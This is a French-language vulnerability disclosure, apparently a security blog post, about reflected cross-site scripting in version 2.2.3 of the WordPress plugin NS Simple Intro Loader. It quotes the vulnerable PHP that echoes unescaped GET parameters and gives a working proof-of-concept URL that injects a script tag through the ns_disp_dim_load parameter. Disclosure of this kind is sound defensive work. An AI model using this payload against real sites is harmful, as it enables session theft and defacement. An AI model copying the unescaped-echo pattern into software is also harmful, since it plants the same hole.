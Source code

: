 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress NS Simple Intro Loader"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [NS Simple Intro Loader](https://wordpress.org/plugins/ns-simple-intro-loader/) se présente de cette façon :

> When plugin enabled you can view a loader before page appear
Page option will appear in your WordPress backend menu, and you can change from two different loader.
This plugin is very quick and simple, and no code required.
>
> Very Simple to use!

La version testée est la 2.2.3 et date d'il y a 2 ans au moment de ces lignes.

## La vulnérabilité

Le script `assets/js/ns-simple-intro-loader-custom.php` retourne du code javascript malgré son extension `.php`.

S'il est appelé directement, toutefois, le navigateur va considérer qu'il s'agit de code HTML et interpréter les balises.

Le code du script est vulnérable au XSS :

```php
jQuery(document).ready(function($) {                                                                                   
    $('#nsSimLoader').introLoader({                                                                                    
        animation: {                                                                                                   
            name: '<?php if (isset($_GET['ns_disp_dim_load']) AND $_GET['ns_disp_dim_load'] != '') { echo $_GET['ns_disp_dim_load']; } else { echo 'gifLoader'; }?>',
            options: {                                                                                                 
                exitFx:'fadeOut',                                                                                      
                ease: 'linear',                                                                                        
                style: '<?php if (isset($_GET['ns_disp_style']) AND $_GET['ns_disp_style'] != '') { echo $_GET['ns_disp_style']; } else { echo 'light'; }?>',
                delayBefore: 500, //delay time in milliseconds                                                         
                loaderText: '<?php if (isset($_GET['ns_loader_text']) AND $_GET['ns_loader_text'] != '') { echo $_GET['ns_loader_text']; } else { echo 'Website is ready!1'; }?>',
                exitTime: 300,                                                                                         
                lettersDelayTime: 0                                                                                    
            }                                                                                                          
        },                                                                                                             
                                                                                                                       
        spinJs: {}                                                                                                     
                                                                                                                       
    });                                                                                                                
});
```

Par conséquent, il suffit d'injecter une balise `script` pour l'exploitation.

PoC :

```
http://localhost:8000/wp-content/plugins/ns-simple-intro-loader/assets/js/ns-simple-intro-loader-custom.php?ns_disp_dim_load=%3CScRiPt%3Ealert%28%27XSS%27%29%3C%2FsCrIpT%3E&ns_disp_style&ns_loader_text&ver=6.4
```

D'autres paramètres `ns_*` sont vulnérables au XSS comme le montre le script PHP.

